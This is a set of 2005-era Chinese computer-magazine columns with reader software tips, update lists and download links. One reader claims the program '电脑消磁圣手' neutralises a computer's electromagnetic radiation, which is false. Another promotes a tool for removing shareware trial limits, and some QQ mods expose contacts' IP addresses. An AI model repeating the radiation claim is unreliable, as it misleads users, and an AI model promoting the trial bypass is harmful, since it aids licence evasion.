打开软件后，设置好搜索的“根键”，然后在“仅读取匹配以下查找准则的值”下的“查找字符串”中输入要查找的字符，同时设置好“搜索目录”，点击“确定”后就可以开始搜索了。

软件版本:1.00
软件大小:85KB
软件性质:免费软件
适用平台:Windows 9x/2000/XP
下载地址:http://www.newhua.com/cfan/200511/regscanner.rar

## 全屏动态壁纸:MM Player

问:天天对着使用死板的壁纸，很想换为动态的，请问有没有这方面的软件呢？

答:这里为你推荐一款动态壁纸软件——MM Player，它可以很容易地实现你所需要的动态壁纸功能。其实这款软件是通过DirectX的Overlay技术将视频显示在桌面上(类似于很多播放器的桌面播放功能)，所以你在使用软件前，要确认已经安装了DirectX 9.0。
打开软件，会出现类似于Winamp的软件主窗口，同时桌面也会变为动态壁纸。通过软件的主窗口，我们可以设置是否用视频画面撑满屏幕，是否显示时间，是否将视频壁纸设置为屏幕保护等。使用起来非常简单。
这里要特别说明的是，软件使用的视频文件为MMV，你可以从http://www.tv365.net/下载到免费的视频壁纸，或是通过手机短信的方式下载收费的高清视频壁纸。如果想自己制作视频壁纸，则要通过SONY摄像机的专用软件，转换出MMV格式的视频文件。

软件版本:2.0
软件大小:5.4MB
软件性质:免费软件
适用平台:Windows 9x/2000/XP
下载地址:http://www.tv365.net/download.asp

## 进程文件清清楚楚:Windows 进程管理器

问:我用“进程管理器”查看系统进程时，看到很多进程根本不知道是什么用处，如lsass.exe等等，请问怎么办呢？

答:这里为你介绍一款名为“Windows 进程管理器”的软件，它可以查看当前系统中的所有进程，同时会显示出该进程的保存路径，并有相关的详细说明告诉你这个进程的作用。
打开软件，在窗口左侧的进程列表中选择好要查询的进程，就可以看到相关的信息了。如果软件内部的数据库并没有该进程的信息，那么你可以在“进程”、“名称”及“描述”中输入内容，然后点击“添加”按钮即可。

软件版本:2.0
软件大小:500KB
软件性质:免费软件
适用平台:Windows 9x/2000/XP
下载地址:http://www.newhua.com/cfan/200511/processmanager.rar

## 即点即搜:词虎

问:我是一个娱乐网站的编辑，平时在编辑文章的时候需要引用一些地图信息，这样就给我增加很大的工作量。请问有什么软件可以随时调用地图信息？

答:推荐你使用一款名字为“词虎”的软件，这款软件只需把鼠标放到关键词上，就可以马上获得相关的信息。而且用“词虎”查找的关键词是地名的话，就会获得相关的地图信息。并且可以对地图进行放大或缩小的操作，就可以根据自己的实际情况来进行选择。除此之外还可以将查询到的结果直接复制到Word文档中，更方便地进行调用。这样就可以用“词虎”很轻松地引用地图信息，而不用再特意单独进行查询了。(小新)

软件版本:2.0
软件大小:2.01MB
软件性质:免费软件
适用平台:Windows 9x/2000/XP
下载地址:http://nj.onlinedown.net/soft/39380.htm



## 第一期

### 试用体验

福建读者小葛：我试用了最新的“极点中文输入法 4.1 公开测试第二版”，感觉很不错，最大的感受就是在 QQ 聊天时，不会再出现错误或是无法输入的问题。

下载地址：http://www.onlinedown.net/soft/24849.htm

沈阳读者蔡建民：我试了最新的 ACDSee 7.0.61，该版本的新特性主要有输入和快速查看图片和视频；查找任何图片，并进行组织，减少保存时间；共享打印机，Slideshows 以及 CD/DVD 图片；通过保存和备份图片，获得更好的保护；减少补丁、数据库、插件的启动时间。虽然新特性有一些，但使用后发现变化不多，而且还要下载升级文件，大家最好不要急于升级。

下载地址：http://www.onlinedown.net/soft/5961.htm

北京读者刘莉：我试用了最新版的比特精灵 2.7.2.212 正式版，发现里面新功能很多，其中最重要的变化就是改进了磁盘写缓存技术，强化了对内网用户的支持（本期《改参数让比特精灵极速狂飙》一文介绍了手动提速修改方式），新增了全新、完整的代理支持（比如可以使用多代理，或是为不同的任务设置不同的代理等），推荐大家升级。

下载地址：http://www.onlinedown.net/soft/29901.htm

### 新软试用

河北读者步惊云：我在网上发现了一款名为“IE 插件屏蔽”的软件，非常不错，它可以让你不再为 ActiveX 插件安装窗口而烦恼。这款软件每次升级，都可以屏蔽更多的 ActiveX 插件。到 2005 Ver 0.5 止，已经可以屏蔽 102 种 IE 插件，并且也可以显示当前已经安装的插件...它算是目前最好的 IE 插件屏蔽软件之一。

打开软件后，在“插件名称”下勾选要屏蔽的 IE 插件，然后点击“应用”按钮即可；在“插件状态”标签下，则显示了已经安装的所有插件，只是目前还不提供卸载的功能，希望以后的版本会添加此功能。

**小提示**

最新版的 GreenBrowser 或 Maxthon，都可以屏蔽 ActiveX 插件窗口；如果是 Windows XP，安装好 SP2 补丁后，IE 也可以屏蔽这些插件。

- 软件版本：2005 Ver 0.5
- 软件大小：475KB
- 软件性质：免费软件
- 适用平台：Windows 9x/2000/XP
- 下载地址：http://www.onlinedown.net/soft/35733.htm

### 最近更新

- Winamp 5.07 优化第二版
  - 升级指数：★★★
  - 修正BUG，并将所用插件更新至最新版本。
  - 下载地址：http://www.newhua.com/cfan/200501/winamp507.exe

- HijackThis 1.99
  - 升级指数：★★★★
  - 增加了“O23”项，该项用于查看系统中的服务，这样病毒添加到服务中的项目也可以删除了。
  - 下载地址：http://www.merijn.org/files/hijackthis.zip

- GreenBrowser v2.3 build 1215
  - 升级指数：★★★
  - 改善对话框过滤、增加使用 IE 快捷键的选项、修改链接弹出菜单。
  - 下载地址：http://www.morequick.com/GreenBrowserGB.zip

- WinPatrol 8.1.2.0
  - 升级指数：★★★★
  - 优化监控所需时间，增加了暂停程序等功能。
  - 下载地址：http://www.winpatrol.com/wpsetup.exe

- MSN Shell v4.0.0.281 Beta
  - 升级指数：★★★
  - 增加皮肤、手写、抓屏等功能，并支持 MSN Messenger 7.0。
  - 下载地址：http://www.msnshell.com/DownLoad/MSNShell4.exe

## 第二期

### 试用体验

北京读者晓雨：我前几天在网上看到有人试用了 Nero 的最新版本 6603 版，这个版本 MPEG4 解码器有严重问题，尤其是它的分离器 NDParser.ax，安装后会使其他版本 MPEG4 分离器失效，而 Nero 的 MPEG4 解码器对常见 MPEG4 视频文件支持很差，在播放时可能会出现错误，所以建议大家先不要升级。毕竟我们用 Nero 最多的是刻盘。

Nero 6.6.0.3 下载地址：http://www.onlinedown.net/soft/35586.htm

Nero 6.6.0.3 官方语音包：http://www.onlinedown.net/soft/3186.htm

陕西读者 QQ 糖：我试用了第一期介绍的“IE 插件屏蔽”，下载的版本是 0.8 版，当勾选“影音”标签下 Real One Player 或 Windows Media Player 后，在线音乐或在线电影就没办法播放了，不过好在其推出的后续版本将这两个选项去除了，建议大家下载使用最新版本。

IE 插件屏蔽 2005 Ver1.0：http://fswinway.cn/upiea/upiea.zip

山西读者王萌：我试用了最新版本的 Adobe Reader 7.0，给我最大的感受就是新版本的启动速度比 6.0 提高了很多，浏览文件速度也快了很多，另外还能向 PDF 文件中添加非 PDF 格式的文件了（如语音、数据文件等）。其他变化我并不关心，比如新增的填表工具、数字签名等。最后，推荐大家升级到新版本。

Adobe Reader 7.0 英文完全版：ftp://ftp.adobe.com/pub/adobe/reader/win/7x/7.0/enu/AdbeRdr70_enu_full.exe

Adobe Reader 7.0 简体中文语言包：http://dlb.pchome.net/utility/file/browse/Adobe_Reader_7.0_chs.exe

### 新软试用

辽宁读者海客：众所周知，电脑电磁辐射对人体健康有很大危害，虽然现在的电脑都在电磁辐射方面采取了很多屏蔽措施，但仍然无法完全根除电磁辐射。如果你非常担心这个问题，可使用电脑消磁圣手这款小软件，无须安装，只要单击“开始消磁”就能产生融磁波，从而中和电脑产生的电磁波，达到消磁目的。因为电脑电磁波会不断产生，所以建议每隔一小时进行一次消磁工作。

- 软件版本：6.3
- 软件大小：656KB
- 软件性质：免费软件
- 适用平台：Windows 9X/2000/XP
- 下载地址：http://www.onlinedown.net/soft/34717.htm

### 最近更新

- 雪狐日历精灵 1.35
  - 升级指数：★★
  - 天气图标新增详细信息提示。
  - 下载地址：http://www.mingsou.com/down/self/calsprite.exe

- 千千静听 4.2
  - 升级指数：★★★★
  - 支持ASIO方式的音频流输出，合并Unicode和Ansi版本，修改CUE音轨索引文件错误，支持以自定义格式从音频文件名猜测（分析）标签信息，进一步优化歌词显示效果等等。
  - 下载地址：http://ttplayer.com/ttpsetup.exe

- DreamMail 3.0 Beta2.4
  - 升级指数：★★★
  - 增加了可以删除邮件保存的历史目录记录，提高了接收邮件的速度，增强了弹出广告的过滤。建议使用该版本的用户从网站下载最新版，进行安装。使用软件自带的自动更新时，有些功能是无法实现的。
  - 下载地址：http://www.dreammail.org/download/dm3_beta24.rar

- 拼音加加增强版 1.0
  - 升级指数：★★★★
  - 添加了百万海量词库，增加两款实用的加工工具，在“开始”菜单中加入了“拼音加加”程序组，方便查看，调用，去除原版拼音加加修改IE默认首页的功能等。
  - 下载地址：http://www.newhua.com/cfan/200502/PYJJ_Plus_10.rar

## 第三期

### 试用体验

网友 BLUE：我用了 Total Commander 6.5 Beta 版，感觉新功能很不错，可以直接浏览缩略图，但长按鼠标右键弹出右键菜单的功能消失了，还有很多 BUG，使用起来很不方便。建议大家先不要升级。

下载地址：http://dl.pconline.com.cn/html/1/6/dlid=1436&dltypeid=1&pn=0&.html

北京读者 DD：我试用了微软最新出的流行恶意程序移除工具（Microsoft Windows Malicious Software Removal Tool），感觉一般，之前被给予厚望的产品让人大失所望，没有必要下载。

下载地址：http://download.microsoft.com/download/3/9/8/3982d61b-07a5-44cd-a7a7-1aa4565f0e93/Windows-KB890830-CHS.exe

### 新软试用

北京读者吴利：自从 QQ 推出等级后，我就开始不停挂级，可是有时也会感觉很烦，比如QQ资源占用大，而且在玩游戏时，经常有人打扰我，或是传文件，或是视频聊天，或是不断有群消息，于是我找来了一款非常不错的QQ挂级工具——mirandaIM For QQ。

将软件解压缩后，运行其中的miranda32.exe，接着点击“建立新数据”按钮，输入任意文件名(比如QQ)，建立DAT数据文件，然后点击“加载 Miranda IM”按钮，再点击“接受→Cancel”按钮完成安装。右击系统托盘内的软件图标，选择Main Menu→Options(主菜单→选项)项，弹出 Miranda IM Options 窗口左侧选择Network→QQ，然后在窗口右侧的QQ ID中输入QQ号，在Password中输入QQ密码，点击“确定”，然后在主窗口中选择Status→Online(状态→上线)即可。

同时加载多个QQ小技巧：关闭mirandaQQ，进入Plugins目录，复制QQ.dll文件，为任意文件名，比如QQ1.dll，重新打开软件，进入 Miranda IM Options 窗口，这时我们就可以看到QQ及QQ1两个项目了，当设置完密码后，在主窗口的Status菜单项下就会看新增的选项了。

（注意：该版本不支持群功能，摄像视频，在公共电脑上使用后，要删除你建立的DAT文件，以保证安全）

- 软件版本：N/A
- 软件大小：343KB
- 软件性质：免费软件
- 适用平台：Windows 2000/XP
- 下载地址：http://www.newhua.com/cfan/200503/mirandaQQ.rar

### 最近更新

- 天网防火墙2.72 build1229
  - 升级指数：★★★
  - 全新在线升级方式，所有模块皆可在线升级；增加若干小功能，比如现在每收到一个数据包图标只闪动一次，增加报警声音选项，增加了清空所有自定义IP规则的选项。
  - 下载地址：http://pfw.sky.net.cn/news/info/list.php?sessid=&sortid=1

- Foxit PDF Reader1.2.0102
  - 升级指数：★★★
  - 不仅增加了文本拷贝的功能，还加快了打开速度，还等什么？还不快去更新。
  - 下载地址：http://www.foxitsoftware.com/pdf/pdf.zip
  - 东亚语言支持模块：http://www.foxitsoftware.com/pdf/pdfjk.bin

- 傲游(Maxthon)1.1.120 正式版
  - 升级指数：★★
  - 更稳定快速，修正退出时有时程序未真正退出问题，修正快捷组有时有空白项目问题，修正一些造成不稳定的问题。
  - 下载地址：http://dl.pconline.com.cn/html/1/8/dlid=7998&dltypeid=1&pn=0&.html

- 极点中文4.1 正式版
  - 升级指数：★★★
  - 增强了程序稳定性与兼容性，特别在Windows 9x下的稳定与兼容性；将输入方式改为“五笔字型”与“五笔拼音”两种方式，取消“五笔拼词”模式，并新增了对数字小键盘输入法的支持。
  - 下载地址：http://www.freewb.net/release/freewb41.rar

## 第四期

### 试用体验

北京读者LL：我用了最新版本的Style XP 3.0，该版本最大的变化可以使用CURSORXP文件改变鼠标指针了，这样换肤就更彻底了。

Style XP 3.0 Ladies版下载地址：http://www.tgtsoft.com/downloads/StyleXPInstallFemale.zip

Style XP 3.0 Men版下载地址：http://www.tgtsoft.com/downloads/StyleXPInstallMale.zip

深圳读者TC爱好：Total Commander 6.5(以下简称TC)正式版终于出来了，Beta版中右键问题终于解决，这回可以深入体验一下TC的缩略图功能了。除了这个最大的变化外，新版本还引入了WDX 插件功能，该插件可以调用更多文件信息，比如MP3文件的ID3标签信息，图片文件的EXIF信息等，通过以后开发的插件，可以利用这些信息，进行搜索、批量更名等操作。限于版面原因具体的更新内容我们会在下期为大家进行介绍。

Total Commander 6.5下载地址：http://www.onlinedown.net/soft/17719.htm

中文语言包下载地址：http://ghisler.fileburst.com/languages/wcmd_chn.zip

### 新软试用

辽宁读者海客：我在网上发现了一款很好用的OCR软件——Mini OCR汉字显示字体识别软件，特此推荐给大家。与现在商用OCR软件相比，它首先是一款绿色的免费软件，并且速度也非常快，对汉字识别的正确率也非常高，只要运行软件，然后按下“打开图像文件”按钮，再点击“文字识别”，就可以高速识别出图片中的文字，你可以选择将识别的结果保存为文本文件。个人感觉这款软件的识别率丝毫不亚于那些商用级的OCR软件，只不过它对英文识别不是太好。另外，最新的Office 2003直接内置了OCR功能，可以直接使用。

- 软件版本：1.0
- 软件大小：2754KB
- 软件性质：免费软件
- 适用平台：Windows 9x/2000/XP
- 下载地址：http://www.onlinedown.net/soft/27951.htm

### 最近更新

- MSN shell 4.0 Beta for MSN 7.0
  - 升级指数：★★★
  - 新功能有很多，比如可以使用GIF动画作为背景，能批量删除或导出图释包，新的标签系统，可检查其他POP3账号是否有新邮件，从聊天窗口启动屏幕截图等功能。由于是试用版，所以大家在使用时需要小心程序BUG。
  - 下载地址：http://download.msnshell.com/msnshell4.0_beta.exe

- My MPC · 暴风影音5.00_Stable
  - 升级指数：★★★
  - 暴风影音5.0的稳定版终于推出了，不为别的，就为“稳定版”三个字也要下载升级。
  - 下载地址：http://www.onlinedown.net/soft/23571.htm

- 新浪UC2005 i Beta2 飘云显IP版
  - 升级指数：★★★
  - 终于UC也像QQ那样有显IP版了，还等什么？还不快去下载？
  - 下载地址：http://www.skycn.com/soft/21714.html

### 试用体验

北京读者LL：我注册过一个早期的共享软件，前几天因为需要所以找出来使用，可是注册码找不到了，后来在网上找到一款软件，名为Sunny FreeWizard，它能解除共享软件的试用限制，如日期限制、启动时弹出的提示窗口及使用天数、次数限制，感觉很不错，这里推荐给大家。

只要将软件下载后，按照向导运行即可。其实这款软件并不是对程序进行破解，而且也不是百分百能够解除试用限制。对于日期限制，一些软件只要将系统时间改回就可以使用，如果你要手工修改，很容易忘记恢复，而Sunny FreeWizard 可以帮你自动完成。对于使用时弹出的窗口Sunny FreeWizard 则可以自动帮你完成固定按键序列的点击来解除限制。

（注意，请勿将软件用于非法活动）

- 软件版本：3.0
- 软件大小：670KB
- 软件性质：免费软件
- 适用平台：Windows 9x/2000/XP
- 下载地址：http://www.newhua.com/cfan/200505/freewiz30.zip

## 第五期

### 新软试用

北京读者小邹：我试用了2004年第4期的“真人原唱手机铃声DIY工具”，发现非常不错，然后找到其主页，发现它已经推出1.2版，新版本增加了更多铃声，而且以前无法转换的铃音格式现在都可以使用了（支持MMF、MP3、PMD、AAC、AMR、ADP、MFM、DXM等格式），非常方便。同时还增加了图示均衡，音量走势等功能。

下载地址：http://download.bitrings.com/wav2ring/w2ringtone120.rar

CFan 小编狂PK：本刊2005年第2期刊登了一篇《五分钟搭建WEB服务器和论坛》，广大读者都对此文抱以了极大的兴趣。可是在安装论坛时却出现了问题，这是由于文中介绍的是WAPM1.0R2(官方又称此版本为1.5)，而文章发表后不久作者就将WAPM升级为2.0，并作了一些细微的改动，作者同时在2.0安装包中特意为我们的电脑爱好者读者做了1.5与2.0的差别说明。大家可以从http://bbs.cfan.com.cn/index.php?showtopic=201568了解修改方法。

### 最近更新

- 腾讯QQ 2004II 珊瑚虫版3.03
  - 升级指数：★★★
  - 能够显示IP的QQ版本。新版本集成腾讯TM 3.0 Build Beta3，集成了最新的IP数据查询更新工具，并更新了IP数据。
  - 下载地址：http://www.skycn.com/soft/4934.html

- EmEditor 4.11
  - 升级指数：★★
  - 极佳的文本编辑器。新版本做出了很多更新，比如可以导出导入设置。如果你是EmEditor的用户，推荐你升级到最新版。
  - Windows 2000/XP 汉化版下载地址：http://www.onlinedown.net/soft/29556.htm
  - Windows 9x 汉化版下载地址：http://www.onlinedown.net/soft/34368.htm

- 千千静听4.3.1
  - 升级指数：★★★
  - 能够显示歌词的MP3播放器。新版本在Windows XP或更高版本系统中支持窗口阴影效果，修正数个BUG；增加自动关机功能等。
  - 下载地址：http://tpp.liuxuan.com/tppsetup.exe

### 试用体验

上海读者郝捷：最新的“QQ等级一目了然”5.70版非常不错，不仅可以在等级、时间、图标上互换，更增添了数个附加功能。其中“在线状态”功能非常不错，你可以将生成的“在线状态”代码在网页或论坛中任意使用，以便别人快速方便地联系到你。

## 第六期

下载地址：http://www.onlinedown.net/soft/36494.htm

北京读者酷酷：因为《电脑爱好者》，我用上了优秀的极点中文输入法，最近我发现有网友制作了它的百万拼音词库，真的很棒！而且尽管词库增大很多，但使用中一点也不影响系统运行和输入速度（解压缩后直接将其下的attach.mb覆盖极点中文安装目录中的C:\Program Files\freewb\mb\下正在使用的输入方案文件夹中的同名文件）。强烈推荐！

福建读者陈迎迎：最近MSN Messenger推出了最新的7.0.0604版，新功能不少：自定义名称后缀（像QQ的签名）；在联系人列表中显示好友的个性图片（像QQ的自定义头像）；使用Windows Media Player 10播放音乐时，直接在昵称中显示曲目；支持离线消息（此功能还未开启）；改善网络连接性能诊断模式等。另外如果将http://www.newhua.com/cfan/200506/winamp_MSN.zip文件解压缩至Winamp所在目录下的Plugins子目录中就可以让MSN Messenger支持显示Winamp曲目的功能。如果你经常使用的播放器是Foobar2000，则可下载http://www.newhua.com/cfan/200506/foo_msn.zip，并将解压缩的文件放至Foobar2000所在目录下的components子目录中即可。至截稿日期该版本MSN Messenger仅有英文版。下载地址：http://www.skycn.com/soft/16443.html

网友jojo：前几天在网上发现了电影《哈利波特》所使用的字体，喜欢的朋友可从http://www.newhua.com/cfan/200506/harrypotter.rar处下载到。

## 第七期

心自己误时了。这款透明的桌面时钟比较特别的是它紧贴桌面，不占屏幕空间，所以一般不会影响你使用其他软件。在使用软件时，如果双击时钟中间的位置，可以在三种样式中切换，右击后，还会弹出多功能菜单，其中包括有定时音乐提醒、定时启动程序、上网计时和整点报时等功能，软件还附万年月历，既实用，又漂亮，非常不错。软件版本：3.41 文件大小：581KB 软件性质：自由软件 适用系统：Windows 9x/2000/XP 下载地址：http://download.pchome.net/home/calendar/16589.html

### 新软试用

河南读者杜刚：大家现在上网聊天都在用QQ，其实不妨用一用搜狐的搜Q这个软件，特别是在Chinaren校友录上注册过的用户，它不仅打开校友录的速度快，而且通过它在校友录上留言文字是可以使用彩色字的，这样我们就有了会员的待遇。下载地址：http://ad.ko.sohu.com/soq/SOQ_SetUp_V3.EXE

### 最近更新

GreenBrowser 2.4 Build 0304 升级指数：★★★ 非常优秀的多窗口浏览器。增加选项模拟拖动链接为Shift加点击；保存页面、图片的同时保存源地址；增加“导入/导出”对话框；工具条的保存按钮增加弹出菜单；增加IE下载时退出的确认对话框等。下载地址：http://www.morequick.com/greenbrowsersgb.zip

Maxthon 1.1.120 升级指数：★★★ 非常优秀的多窗口浏览器。修复了另一个无法退出的问题；修复了侧边栏收藏夹弹出错误的问题；修复了几个会造成不稳定的问题；修复了群组中有时出现空白项的问题；去掉了关闭时候显示的信息框等。下载地址：http://www.maxthon.com/chs/download.htm

LumaQQ 2004(03.09 Patch) 升级指数：★★★★ 可以查看隐身好友的非官方QQ。继续完善群相关协议，初步解决多人对话、讨论组和普通群的消息收发问题；为查找结果列表添加了排序功能；解决了有些离开状态图标变花的问题；修正了发送消息包格式定义中的一处错误，解决了对方收到消息时头像变化的问题等。下载地址：http://nj.onlinedown.net/soft/37852.htm

POPO 2004 Build 20050310 升级指数：★★★★ 网易推出的即时通讯工具。增加了超强“兴趣组”功能；增加了本地及在线音乐播放以及网络电台播放功能；增加了POPO活动页；改进了语音、视频效果。另外，还要注意新版本与老版本的视频、表情不兼容。下载地址：http://popo.163.com/download.shtml

极点中文4.2正式版 上期刚刚介绍过极点中文4.2的测试版没多久，这款目前人气最旺的五笔输入法就推出了4.2正式版，具体变化我们已经介绍过了，因此不再赘述。下载地址：http://www.newhua.com/cfan/200507/Freewb.42Final.Deluxe.4.2005.03.10.exe

## 第八期

### 试用体验

北京读者VIP：我试用了最新的Virtual Native Network 3.0（即VNN 3.0），新版本功能不错，但也有一些问题，很多人和我一样，也用回了老版本。另外，在使用3.0时，以前开机运行VNN的选项改成了服务模式，但启动服务需要在“命令提示符”窗口进入软件安装目录，然后输入VNNClientC.exe -install（具体使用说明可以参考说明文件）。下载地址：http://www.vnn.cn/

### 新软试用

四川读者断松：如果你想乘坐航天飞机过瘾，推荐使用Celestia。这是一款可以让普通人也能经历不寻常的宇宙探险的软件。不同于一般的2D天体软件，Celestia能够模拟出以太阳为中心大约一亿光年之内的3D宇宙空间，包括太阳系九大行星和它们的卫星，著名的小行星、彗星、星云、太阳系外行星及恒星，连人类著名的航天器等都可以模拟显示出来。它可以让你在任意时间和空间“到达”你希望去的地方。进入软件后，你可以先通过菜单中的Help→Run Demo来看一遍软件自带的演示，它将带你到宇宙中遨游一番，并向你展示软件基本特性。在平常的使用中，你可以用鼠标点击星体，就可以将其选中，这时该星体的详细信息会显示在视野左上角，如果同时按住鼠标左、右键并上下拖动可以调整到星体的距离，单独按住鼠标左键并移动可以将视野平移，单独按住鼠标右键并移动可以使视野旋转。还有更简单的方法“去”一个很遥远的星体：按下回车并输入目标代号，再次回车就可以选中目标星体，这时只要按G键就可以来到这个星体前了。另外，软件还支持脚本功能，通过这些脚本，你可以随同火星登陆器Spirit和Opportunity重温整个火星探索计划，甚至还可以下载《星球大战》的资料包驾驶一回著名的X战机在太空中“闲逛”。这些Celestia的脚本、新模型及贴图等资料包下载，可以从http://www.celestiamotherlode.net/index.html等网站上下载，非常方便。软件版本：1.3.2 软件大小：11MB 软件性质：免费软件 适用平台：Windows 9x/2000/XP, Mac OS X, Linux 下载地址：http://www.shatters.net/celestia/download.html

### 最近更新

比特精灵2.7.2.232正式版 升级指数：★★ 非常不错的BT下载软件。推荐内网用户升级此版本。新版本修正了内网互联时，在部分种子服务器下无法启用问题。同时还修正了内存访问的严重错误，还进行了数个BUG的修正，并进行了部分功能的改进。下载地址：http://www.skycn.com/soft/14276.html

GreenBrowser 2.4 Build 0322 升级指数：★★ 不错的多窗口浏览器。新版修正收藏夹排序的问题，修正拖动链接的问题及修正插件MouseUnlock的问题，但也有一些老版本可以过滤的广告，在新版中无法过滤。下载地址：http://www.morequick.com/GreenBrowserGB.zip

CyberArticle 4.2 最终测试版本

## 第九期

升级指数：★★★★
具有收集、整理、生成等功能的电子书软件。新版最大的改进就是增加了导入CHM文件的功能。但在使用时需要注意，请将要导入的文件放在英文文件夹下，同时也不要使用中文命名该文件。
下载地址：http://nj.onlinedown.net/soft/35723.htm

### 试用体验

北京读者小艾：前段时间金山词霸2005推出了官方取词补丁，主要就是解决在取词时McAfee会报告内存溢出的问题。正在同时使用这两款软件的朋友快去下载安装吧。
下载地址：http://www.newhua.com/cfan/200509/dictsp.zip

北京读者小艾：现在网上非常流行腾讯QQ2005的精简版，这是网友自己制作的版本，它集成了最新的珊瑚虫外挂，重要的是它去除了皮肤中QQ音乐、QQ宠物、QQ邮箱等多个一般不常使用的功能。如果觉得QQ2005占资源过多，或想使用精简的皮肤，那么推荐使用此版本。
下载地址：http://ftp.pconline.com.cn/pub/download/200504/qlite.exe

### 新软试用

陕西读者夜语：我从网上下载了一款名为PortFree Production Program的软件，它可以修复诸如闪存盘无法识别、无法读取数据、无法访问或是容量变小等问题。不过这款软件只适用于部分品牌的闪存盘。如果你的闪盘出了问题，而又被这款软件所识别，可以打开软件，然后选择菜单中的“Functions→Option”（功能→选项），在“Flash Test”（闪存盘测试）选项卡中勾选“Low Level Format”（低级格式化），点击“OK→RUN”按钮即可。
软件版本：3.16
软件大小：1.63MB
软件性质：免费软件
适用平台：Windows 9x/2000/XP
下载地址：http://www.newhua.com/cfan/200509/PFPP.rar

### 最近更新

UPIEA 2005 Ver1.32c
升级指数：★★★
IE插件屏蔽软件。新版本可以免疫432个IE插件，可以显示当前已安装的IE插件，可以查杀部分流行病毒等等。
下载地址：http://www.lumix.cn/upiea.zip

万能五笔EXE外挂6.42.18版
升级指数：★★★★
老牌的五笔软件。新版本改进了在多种即时通讯软件中输入时的问题；增加“菜”按钮，可进行个性化设置；优化造词功能，真正做到“所见即所得”。除此之外，还修正了很多其他BUG，并增加了很多新功能。
下载地址：http://www.onlinedown.net/soft/1165.htm

Alcohol 120% 1.9.5.2802
升级指数：★
非常不错的虚拟光驱软件。此版本主要进行了BUG的修复，如果不升级也不影响使用。但最好升级至1.9.5.2722版，该版本新增了数种支持的媒体类型。
下载地址：http://trial.alcohol-soft.com/en/download_120.php

瑞星听诊器3.3
升级指数：★★
配合杀毒软件使用的辅助工具。新增加了提取灰鸽子病毒中DLL文件的功能。
下载地址：http://download.rising.com.cn/for_down/RavDetect.exe

O&O Defrag V8.0
升级指数：★★★★
功能强大的磁盘整理工具。新版可以在引导前对硬盘进行整理；可以对移动硬盘、各类存储卡进行整理；增加了一键整理等功能。新版本新增了不少功能，推荐大家升级。
下载地址：http://nj.onlinedown.net/soft/22287.htm

## 第十期

### 试用体验

上海读者李浩：最近CyberArticle（网文快捕）更新到4.2版，大家在升级时可以直接覆盖老版本。这个经历了11个Beta版的版本增加了标签、虚拟文件、节点列表、导入CHM文件等功能。另外，如果大家在使用CyberArticle时，如出现了书籍文件错误、无法打开的情况，可以先使用“书籍修复工具”（下载地址：http://www.wizissoft.com/download/checkbook.zip）进行修复，如果书籍还是无法打开，那么可以使用BookDump（下载地址：http://www.wizissoft.com/download/bookdump.zip）将损坏书籍中的HTML文件提取出来。

### 新软试用

新疆读者李斌：如果你需要制作网页，并且经常需要分割图片（如方便浏览大尺寸图片、制作拼图或是防止别人下载网站上的图片），建议使用SplitZ！它可以将BMP、JPG、TIF、PNG图片分割成若干小图片，同时在输出时还会保存为HTML文件，并且可以为每张图片设置不同链接，非常方便。软件还有JPG文件压缩功能，这样不必切换其他软件，直接就可以将JPG压缩得更小。
打开软件后，点击左上角按钮，然后点击图片添加分割线，完成后选择“文件→导出”即可保存为JPG（BMP、TIF、PNG等格式）文件及组合好所有图片的HTML文件了。在保存时你还可以编辑HTML源代码，为每一块图片指定不同的链接。
软件版本：1.51 汉化版
软件大小：902KB
软件性质：免费软件
适用平台：Windows 9x/2000/XP
下载地址：http://www.newhua.com/cfan/200510/splitz.rar

### 最近更新

傲游（Maxthon）1.2.3
升级指数：★★
强大的多窗口浏览器软件。新版本解决某些情况下无法登录Gmail的问题；加快了关闭速度；优化了浏览和下载速度。
下载地址：http://nj.onlinedown.net/soft/15581.htm

拼音加加3.10
升级指数：★★
非常不错的拼音输入法。3.10版增加了互联网搜索工具（允许用户选择是否使用）及还原系统默认字频的功能，还新增了使用Shift键切换中英文的选项，同时增强了存盘文件安全性。
下载地址：http://nj.onlinedown.net/soft/28666.htm

Messenger Plus! 3.52.130
升级指数：★★★★
功能强大的MSN Messenger（以下简称MSN）插件。新版本修复了MSN 7.0的兼容性问题，如果你已经开始使用MSN 7.0，推荐升级到此版本。
下载地址：http://nj.onlinedown.net/soft/13198.htm

腾讯QQ/TM珊瑚虫外挂3.12
升级指数：★★
可以显示IP的QQ版本。新版本彻底修复部分机器登录时崩溃的问题，同时去除了珊瑚虫QQ迷你门户，对于最重要的IP数据也更新到了0415200920版。
下载地址：http://nj.onlinedown.net/soft/32845.htm

## 第十一期

### 试用体验

西安读者李文：前几天我下载了以前介绍过的求职助手，发现它已经升级了新版本，新版本增加了提取浏览页面中E-mail的功能，公司信息的收集管理功能及简历编写、发送向导，非常方便。这样可以快速编写出漂亮实用的简历文档，同时还可以快速把简历发送到求职单位。
下载地址：http://www.newhua.com/cfan/200511Jobassistant.zip

### 新软试用

天津读者玉凯：我在网上找到一款非常不错的QQ皮肤，它可以让QQ嵌入到桌面，完全隐藏在桌面中，效果非常不错。解压缩下载的安装包，双击3131.kip即可完成安装。需要注意，有时切换皮肤时会出现错误提示，但并不影响使用。
下载地址：http://www.newhua.com/cfan/200511/qsskin.rar

上海读者马旭：前段时间试用了Google新推出的Google Web Accelerator，这款软件既可以起到浏览网页加速作用，还是一款非常不错的代理服务器，可以快速访问很多网站，不过它对于拨号用户和国内网站还不能起到任何作用。在截稿时，Google暂时关闭了Google Web Accelerator的下载服务，也许等到重新开始时，还会新增更多实用功能。
下载地址：http://nj.onlinedown.net/soft/39501.htm

### 最近更新

Winamp 5.09 升级指数：★
老牌的媒体播放软件。新版本增加了一些几乎不用的功能，如将从媒体库删除的文件直接移到回收站；删除“HTTP强行播放”支持等。因此没有必要进行升级。
下载地址：http://dl.pconline.com.cn/html/1/2/dlid=132&dltypeid=1&pn=0&.html

BaiduMp3 2.0 升级指数：★★
快速下载百度MP3歌曲的软件。新版本进行了多个BUG的修改，增加了“删除所有出错的任务”功能，增加错误日志功能，还可设置跳过条件：当下载目录存在同名文件时跳过，当下载速度低于某个值时跳过。
下载地址：http://info96.k12studio.com/~nio/BaiduMp3.html

BitComet 0.58 升级指数：★★★
下载速度最快的BT软件之一。新版修正了用户桌面锁定时无法自动关机；修正非正常关闭程序时，“启动时自动继续下载上传任务”失效的BUG。其他更新大家可登录主页查看。
下载地址：http://www.bitcomet.com/doc/download-zh.htm

紫光拼音输入法4.0m1增强版
升级指数：★★★★
